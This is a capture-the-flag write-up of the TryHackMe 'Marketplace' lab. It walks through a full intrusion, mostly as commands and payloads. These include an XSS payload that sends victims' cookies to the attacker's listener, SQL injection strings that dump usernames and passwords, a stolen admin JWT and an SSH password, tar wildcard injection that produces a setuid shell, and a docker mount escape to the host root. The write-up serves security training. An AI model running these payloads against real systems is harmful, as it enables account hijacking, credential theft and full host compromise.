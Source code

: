 # The Marketplace

**Room Link:** [https://tryhackme.com/room/marketplace](https://tryhackme.com/room/marketplace)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (519).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (520).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:32768 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

## TCP/32768 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:32768 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (521).png" alt=""><figcaption></figcaption></figure>

## XSS - Steal JVT

[https://jwt.io/](https://jwt.io/)

<figure><img src="../../.gitbook/assets/image (522).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (523).png" alt=""><figcaption></figcaption></figure>





I tried updating the token it didn't work

<figure><img src="../../.gitbook/assets/image (526).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>



Next we're going to try to steal the JWT from another user.

**Kali**

```
nc -lvnp 4444
```

**Browser**

```
<script>document.location='http://$KALI:4444/XSS/grabber.php?c='+document.cookie</script>
```

<figure><img src="../../.gitbook/assets/image (530).png" alt=""><figcaption></figcaption></figure>

This was annoying because if I went to my posts it wouldn't work so I went to Jakes post and changed the number from 2 to 6 to get to the report page. Then just clicked the report button

<figure><img src="../../.gitbook/assets/image (531).png" alt=""><figcaption></figcaption></figure>

we got a token from a user that isn't us

<figure><img src="../../.gitbook/assets/image (533).png" alt=""><figcaption></figcaption></figure>



We can see it is from Michael who is an admin.

<figure><img src="../../.gitbook/assets/image (532).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (534).png" alt=""><figcaption></figcaption></figure>





Sent again but this time just forwarded the request so we could see what that script was doing

<figure><img src="../../.gitbook/assets/image (535).png" alt=""><figcaption></figcaption></figure>



The script was printing the flag

<figure><img src="../../.gitbook/assets/image (536).png" alt=""><figcaption></figcaption></figure>

This wasn't working before but after next time I went to this box tried I could just update the cookie from the browser and it worked.

<figure><img src="../../.gitbook/assets/image (537).png" alt=""><figcaption></figcaption></figure>

**Brower cookie**

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3MDE1MjgzODN9.O8218jJ0nmWedeewklX6fkb9sjlgH81ciU7dJG5l9YY
```



We add a order by and increase the number until we get an error to reveal how many fields there are.

<figure><img src="../../.gitbook/assets/image (538).png" alt=""><figcaption></figcaption></figure>

After 5 it give us an error so we know there are four fields

<figure><img src="../../.gitbook/assets/image (539).png" alt=""><figcaption></figcaption></figure>

We do a union select, first to try to show our 1s which isn't working because the first part of the statement runs successfully so theres no where to put our info

<figure><img src="../../.gitbook/assets/image (541).png" alt=""><figcaption></figcaption></figure>

To work around this we make the userid as 0 which probably doesn't exist and we can start seeing our 1s

<figure><img src="../../.gitbook/assets/image (542).png" alt=""><figcaption></figcaption></figure>

Get Version

<figure><img src="../../.gitbook/assets/image (547).png" alt=""><figcaption></figcaption></figure>



Get Database

<figure><img src="../../.gitbook/assets/image (548).png" alt=""><figcaption></figcaption></figure>





Get tables

```
UNION SELECT table_name,1,1,1 FROM information_schema.tables WHERE table_schema=database()
```

<figure><img src="../../.gitbook/assets/image (549).png" alt=""><figcaption></figcaption></figure>

Get All tables by concat

```
-1 UNION SELECT group_concat(table_name),1,1,1%20 FROM information_schema.tables WHERE table_schema =database()
```

<figure><img src="../../.gitbook/assets/image (550).png" alt=""><figcaption></figcaption></figure>





Get Columns for table users

```
-1%20UNION%20SELECT%20group_concat(column_name,column_type),1,1,1%20%20FROM%20information_schema.columns%20WHERE%20table_schema=marketplace
```

<figure><img src="../../.gitbook/assets/image (551).png" alt=""><figcaption></figcaption></figure>

Get Columns for table items

```
-1 UNION SELECT group_concat(column_name,column_type),1,1,1 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='items' AND table_schema='marketplace'
```

<figure><img src="../../.gitbook/assets/image (552).png" alt=""><figcaption></figcaption></figure>

Get Columns for table messages

```
-1 UNION SELECT group_concat(column_name,column_type),1,1,1 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='messages' AND table_schema='marketplace'
```

<figure><img src="../../.gitbook/assets/image (553).png" alt=""><figcaption></figcaption></figure>

Get Columns for table messages

```
-1%20UNION%20SELECT%20group_concat(message_content),1,1,1%20FROM%20messages
```

<figure><img src="../../.gitbook/assets/image (554).png" alt=""><figcaption></figcaption></figure>



Get usernames and passwords. The passwords aren't too useful at this point but now we have some usernames.

```
-1%20UNION%20SELECT%20group_concat(username,%27|%27,password),1,1,1%20FROM%20users
```

<figure><img src="../../.gitbook/assets/image (555).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (543).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (544).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (545).png" alt=""><figcaption></figcaption></figure>

## TCP/22 - SSH

**Kali**

```
ssh jake@$VICTIM
Password: @b_ENXkGYUCAv3zJ
```

<figure><img src="../../.gitbook/assets/image (546).png" alt=""><figcaption></figcaption></figure>

## **Lateral Movement**

**Exploit:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

Jake can run a backup script as michael. The script is using a wildcard which we manipulate.&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

We can trick the script to run this to get a shell by making empty files with similar names

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /opt/backups
mkdir priv
cd priv
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh shell.sh
vi shell.sh
```

**shell.sh**

```
#!/bin/bash

cp /bin/bash /opt/backups/michealbash;
chmod +xs  /opt/backups/michealbash;
```

**Victim**

```
chmod +x shell.sh 
rm -f ../backup.tar 
sudo -u michael /opt/backups/backup.sh 
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>



## **Privilege Escalation**

**Victim(micheal)**

```
id
find / -name docker.sock 2>/dev/null
docker images
docker run -it -v /:/host/ alpine chroot /host/ sh
```

michael is part of the docker group so it appears we're in a pod

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

There a few images to test from. I just ran the last command above and changes the image name until it worked. Exploit worked with nginx and mysql images as well.

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>








